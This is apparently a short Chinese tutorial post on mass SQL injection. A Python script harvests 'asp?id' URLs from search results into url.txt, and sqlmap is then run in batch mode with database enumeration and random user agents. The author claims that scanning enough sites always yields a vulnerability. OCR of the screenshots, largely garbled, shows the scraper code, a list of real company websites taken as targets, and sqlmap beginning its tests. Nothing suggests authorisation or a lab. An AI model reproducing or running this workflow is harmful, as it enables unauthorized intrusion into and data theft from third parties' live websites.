



Py+sqlmap

Search.py脚本批量扫描，使用sqlmap批量注入

扫描够多就必出漏洞

观察result中的log是否为1kb

<!-- 这是一张图片，ocr 内容为：D提素 编辑(E) 文件(E) 转到(G) 帮助(H) 选择(S) 小 运行(R) 运行和阅试 SEARCHPY X R>WEBSOFT>618618>课堂文档>批量挖田SQ注入代码>零SEARCH,PY>命 运行 PARSE.DATA CREATE REQUASTS(PAGE,DATA): DEF 运行和通试 要自定义运行和调试,请打开文件夹 8 厂 并创建一个 LAUNCH.JSON文件. 9 PROXY 10 "HTTP":"127.0.0.1:49924", 显示所有自动调试起置 "HTTPS"127.0.0.1:49924" TI SHOW AUTOMATIC PYTHON RESPONSE-REQUESTS.GET(URL-URL,HEADERS-HEADER,PROXIES PROXY) RESPONSE.ENCODING "UTF-G" CONTEXT RESPONSE.TEXT RETURN CONTEXT DEF PARSE_DATA(CONTEXT): PARSE ETREE.HTML(CONTEXT) DATAPARSE.XPATH(/////@HREF) FLOPEN(R'URL.TXT","A ) FOR URL IN DATA: GOOGLE.COM"IN URL: CONTINUE JPGIN UR1: CONTINUE "JPEG"IN URL: 3E "PNG"IN URL: 中心X 科技控制合 输出 格瑞瑞门 PYTHON DEB... (PYTHON PS C:VUSERS/3IMI)8 1:/DYTHON/PYTHON.EXE ":NEB550FF/918 618 618 618/欧宽支付/配于 中国           信息科技INUR1,"ASP?ID" 分化合电号电话:048010901109 HTIPS://UMTS-GCOGLE.CO.JP/INTL/JA/ABOUT/PRODUCTS?TABSUHSUPS@ HTTP://MMPLUS.CEM.CN/ABOUTUS.ASP?ID-4PJPAP# HTTP://WW.SSOT.CN/PRO_VIEW.ASP?ID 98JUPAPP HTTP://WAW.WXICC.COM/LIST.ASP?ID-230.230号 HTTP://WTE.SINNONA.COM/RCZY.ASP.IDU200.0.P.E HTTPS://STAT.IVISIONCCTV.CAM/CN/ABOUT.ASP?IDS10 104404 HTTP://WAW.TONGDINGGROUP.COM/ABOUT.ASP?IDE4TURNF11E HTTP://WWW.XIAMENJIYANG.COM/EN/WAP/PRODUCT1.ASP?ID-84@.@ HTTP://WIN.SDCXJT.COM/JSH.ASP2ID-14AUANE HTTP://WW.CPCASHOW.COM/EXPO.ASP?ID 9IJIAN HTTP://WATE.SOG.COM.CN/ABOUT.ASPRIDSID.TARE RAISED EXCEPTIONS UNCAUGHT EXCEPTIONS 茶 " USER UNCAUGHT EXCEPTIONS U 00AO MO & () PYTHEN 312364-HIL -->

<!-- 这是一张图片，ocr 内容为：此电脑 在SG CODE(J:) PYTHON>SQLMAP Y 三查看 排序 类型 大小 修改日期 名称 文件夹 2024/8/8 7:47 .GITHUB 文件夹 2024/8/8 7:47 DATA 文件夹 2024/8/8  7:47 DOC 文件夹 2024/8/8  7:47 EXTRA 文件夹 2024/8/8 7:47 LIB 文件夹 2024/8/8 7:47 PLUGINS 文件夹 2024/8/8 8:40 RESULT 文件夹 2024/8/8 7:47 TAMPER 文件夹 2024/8/8 7:47 THIRDPARTY GIT ATTRIBUTES源文件 1 KB 2024/8/87:47 GITATTRIBUTES GIT LGNORE 源文件 2024/8/8 7:47 1 KB -GITIGNORE 改版BY狐狸 PYLINTRC 文件 2024/8/8 7:47 PYLINTRC 17 KB 19 KB LICENSE 2024/8/8  7:47 文件 MARKDOWN 源文件 README.MD 2024/8/8  7:47 6KB 中 22KB CONF文件 2024/8/8 7:47 SQLMAP.CONF PYTHON源文件 26KB 2024/8/8 7:47 SQLMAP.PY 5KB PYTHON 源文件 2024/8/8 7:47 SQLMAPAPI.PY 2024/8/8  7:47 YAML源文件 7KB SQLMAPAPI.YAML 文本文档 2024/8/8 8:37 1 KB URL.TXT -->

<!-- 这是一张图片，ocr 内容为：I CIWINDOWSISYSTEN3ZIAND'EXE - PYTHON SGLMAP-PY-M UTIXT--DBS - DBS -RANDOM-AGENT-AGENT---OUT DIR RESU [版本10.0.22631.3880] MICROSOFTWINDOWS L版 (C)MICROSOFT CORPORATION.保留所有权利. "ID" -OUTPUT-DIR RESULT -DBS --BATCH J:\PYTHON SQLMAP>PYTHON SQLMAP.PY -M URL.TXT RANDOM-AGENT A- {1.8.8#STABLE] HTTPS://SQLMAP.ORG LEGAL DISCLAINER: USAGE OF SQLMAP FOR ATTACKING TARGETS WITHOUT PRIOR MUTUAL IS ILLEGAL. IT IS THE END USER' CONSENT S RESPONSIBILITY TO OBEY ALL APPLICABLE LIABILITY AND ARE NOT RESPON NO ] LOCAL, STATE AND FEDERAL LAWS. DEVELOPERS AND FEDER S ASSUME SIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM 08:03:48/2024-08-08/ STARTING [08:03:48] [WARNING] USING 'J:\PYTHON\SQLMAP\RESULT" AS THE OUTPUT DIRECTORY [INFO] FETCHED RANDON HTTP USE3-AGENT HEADER VALUE "MOZILLA/5.0 (WINDOWS: U; WINDOWS NT 5,1: EN-IS) APDLEYE [08:03:48] (KHTML, IT/525.13 JIKE GECKO) CHROME/4.0.202.0 SAFARI/525.   FROM  FROM FILE J:J:J:JDYTHON\SGLMAP\DATA\TXT\USER-ABENTS [08:03:48] INFO OM ' TXT' PARSING MULTIPLE TARGETS LIST FROM [INFO] FOUND A TOTAL OF 6 TARGETS [08:03:49] NE) UNICODE CHARACTERS INSIDE YOUR TERMINAL ( CP936') ENVIRONMENT. ALL UU [WARNING] CANNOT PROPERLY DISPLAY (SOME) UNICODE CODE COR [08:03:49] NHANDLED OCCURRENCES WILL RESULT IN REPLACEMENT WITH CHARACTER. PLEASE, FIND PROPER CHARACTER REPRESENTATION INSIDE CORRESPONDING OUTPUT FILES [1/6]URL: GET HTTPS://WWW.GOOGLE.CO.JP/INT1/JA/ABOUT/PRODUCTS?TAB-WH ? DO YOU WANT TO TEST THIS URL? [Y/N/Q] [[08:03:49](INFO] TESTING URL 'HTTPS://WWW.80OGLE,CO. JP/INTI/JA/ABOUT/PRODICTSZTAB-TAB-TH ? -->

